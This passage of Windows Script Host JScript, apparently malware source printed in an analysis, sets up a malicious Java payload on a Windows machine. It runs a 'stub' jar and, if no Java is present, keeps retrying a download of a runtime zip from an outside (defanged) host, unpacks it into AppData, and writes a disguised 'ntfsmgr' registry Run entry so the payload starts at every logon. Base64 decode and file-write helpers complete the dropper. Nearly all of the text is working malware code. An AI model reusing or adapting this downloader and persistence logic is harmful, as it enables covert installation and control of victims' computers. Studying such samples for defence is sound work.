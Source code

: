 ```javascript
    } catch (err) {}

    try {
        if (text != "") {
            //wshShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\ntfsmgr", "\"" + text + "\" -jar \"" + stubpath + "\"", "REG_SZ");
            wshShell.run("\"" + text + "\" -jar \"" + stubpath + "\"");
        } else {
            GrabJreFromNet();
        }
    } catch (err) {}

    function GrabJreFromNet() {
        do {
            try {
                var xHttp = WScript.CreateObject("msxml2.serverxmlhttp.6.0");
                var bStrm = WScript.CreateObject("Adodb.Stream");
                xHttp.open("GET", "hxxp://wshsoft.company/jv/jrex.zip", false);
                xHttp.setOption(2, 13056);
                xHttp.send();
                bStrm.Type = 1;
                bStrm.open();
                bStrm.write(xHttp.responseBody);
                bStrm.savetofile(appdatadir + "\\jre.zip", 2);
                break;
            } catch (err) {
                WScript.Sleep(5000);
            }
        } while (true);
        UnZip(appdatadir + "\\jre.zip", appdatadir + "\\jre7");
        //wshShell.RegWrite("HKLM\\SOFTWARE\\JavaSoft\\Java Runtime Environment\\CurrentVersion", "1.8", "REG_SZ");
        //wshShell.RegWrite("HKLM\\SOFTWARE\\JavaSoft\\Java Runtime Environment\\1.8\\JavaHome", appdatadir + "\\jre7", "REG_SZ");
        wshShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\ntfsmgr", "\"" + appdatadir + "\\jre7\\bin\\javaw.exe\" -jar \"" + stubpath + "\"", "REG_SZ");
        wshShell.run("\"" + appdatadir + "\\jre7\\bin\\javaw.exe\" -jar \"" + stubpath + "\"");
    }

    function decodeBase64(base64) {
        var DM = WScript.CreateObject("Microsoft.XMLDOM");
        var EL = DM.createElement("tmp");
        EL.dataType = "bin.base64";
        EL.text = base64;
        return EL.nodeTypedValue;
    }

    function writeBytes(file, bytes) {
        var binaryStream = WScript.CreateObject("ADODB.Stream");
        binaryStream.Type = 1;
        binaryStream.Open();
        binaryStream.Write(bytes);
        binaryStream.SaveToFile(file, 2);
    }

    function UnZip(zipfile, ExtractTo) {
        if (fso.GetExtensionName(zipfile) == "zip") {
            if (!fso.FolderExists(ExtractTo)) {
                fso.CreateFolder(ExtractTo);
            }
            var objShell = WScript.CreateObject("Shell.Application");
            var destination = objShell.NameSpace(ExtractTo);
            var zip_content = objShell.NameSpace(zipfile).Items();   
```